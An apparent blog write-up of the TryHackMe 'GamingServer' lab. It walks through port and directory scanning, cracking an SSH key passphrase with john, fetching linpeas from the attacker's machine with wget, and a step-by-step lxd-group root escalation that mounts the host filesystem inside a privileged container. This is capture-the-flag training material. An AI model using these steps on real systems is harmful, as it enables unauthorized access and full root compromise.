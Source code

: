 ```yaml
---
slug: gamingserver
title: THM Gamingserver writeup
authors: ["ky"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg
tags: ["lxd", "john", "boot2root"]
---
```


Hello Everyone.

This is my first blog so do correct me if I go wrong anywhere. So in this blog we will go through a tryhackme machine [GamingServer](https://tryhackme.com/room/gamingserver)
So lets get started

![](https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg)

<!--truncate-->

# Enumeration

---

## Nmap

-> Our first step will be to find open ports on given ip so that we can gain access to victim machine from any of the open port using tool called [nmap](https://nmap.org)

```bash
└─$ sudo nmap -sSCV 10.10.210.28
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Gobuster

-> Port 80 is open so our next tasj is to find the directories present on this web server

```bash
└─$ gobuster dir -u http://10.10.210.28 -w /usr/share/wordlists/dirb/common.txt -t 30
2>/dev/null

/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 313] [--> http://10.10.210.28/secret/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.210.28/uploads/]
```

---

-> Lets visit every directory one by one
-> So after visiting robot.txt we get that /upload is allowed  
-> After that we have secret so in this directory we get another dir which contains a encrypted idrsa

![](Attachment/Pastedimage20220101115747.png)

-> Lets save this in a file called `id_rsa`
-> Then convert it to john format using ssh2john so that tool john can crack the password
-> so first conversion to john format
`command: └─$ ssh2john.py id_rsa > coverted `
-> After converting we can use john to crack the password but for cracking we require wordlists
-> So After visiting `/uploads` we got a list which we can use for john
`└─$ wget http://10.10.210.28/uploads/dict.lst` to import this list to local machine
`Note: After importing the list convert it to .txt as john will not accept .lst file as wordlist`

![](Attachment/Pastedimage20220101120705.png)

-> So lets use john to crack the passphrase

![](Attachment/Pastedimage20220101121231.png)

-> We've cracked the passphrase. Now our next task is to find the user from which we will login into the machine using ssh

-> After going through source code of homepage we got the user
![](Attachment/Pastedimage20220101122744.png)

-> So lets login using ssh
`command: └─$ ssh -i id_rsa john@10.10.210.28`

-> After login lets grab the user flag

![](Attachment/Pastedimage20220101123218.png)

## PrivEsc

-> Treid `sudo -l` but as we have not password of john so it wont worked
-> Then we've the find command from which we can find the suid files but there also didnt got anything special and last one is cronjobs `cat /etc/crontab` which will give if any cronjob is not there which is executing a file with root perm repeatedly with a time period of sleep but there also we got nothing

-> Then the last option left is to use linpeas
-> We've to transfer the linpeas from our local machine to victim using python3 server and then wget in the victim machine
-> execute this command from directory where the linpeas is downloaded in your local machine
`command: python3 -m http.server 8181 `
-> Then wget the file in victim machine
`command: wget http://<tun0_ip>:8181/linpeas.sh `

-> In the starting of the linpeas result only we are in lxd group
-> So let find out what we can do with it on google
-> After going through couple of links got the blog of [Hacking Articles](https://www.hackingarticles.in/lxd-privilege-escalation/) and followed the steps mentioned in the blog and we got root!!!

```bash
step:
	On attacker machine
		1) git clone  https://github.com/saghul/lxd-alpine-builder.git
		2) cd lxd-alpine-builder
		3) ./build-alpine
		4) python -m SimpleHTTPServer
	On Victim machine
		1) cd /tmp
		2) wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
		3) lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
		4) lxc image list
		5) lxc init myimage ignite -c security.privileged=true
		6) lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
		7) lxc start ignite
		8) lxc exec ignite /bin/sh
		9) id
		10) cd /mnt/root/root
		11) cat root.txt
```

![](Attachment/Pastedimage20220101133841.png)

![](Attachment/Pastedimage20220101132508.png)

---

## Outro

It was a great machine. The User shell was bit easy one but in privesc part learned a new thing about how we can get root if we are in the **lxd** group

Thank you for reading my writeup. I will be constantly uploading blogs on different machines of tryhackme, hackthebox and on anything new I will learn. So follow me for my upcoming blogs and also do visit my [twitter](https://twitter.com/ky10100) profile for any upcoming updates. Till then stay safe stay healthy :)
